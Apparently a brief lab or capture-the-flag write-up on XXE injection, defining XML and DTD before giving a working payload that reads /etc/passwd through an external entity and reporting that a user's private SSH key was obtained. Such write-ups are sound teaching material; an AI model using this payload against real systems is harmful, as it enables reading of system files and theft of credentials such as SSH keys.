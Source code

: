 ## XXE

```
IP = 10.10.188.3
```
+ XML (eXtensible Markup Language) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.
+ DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.
+ Typical XXE payload to test for XXE:	
	`<?xml version="1.0"?>
	 <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
	 <root>&read;</root>`
+ Got the user's private SSH key.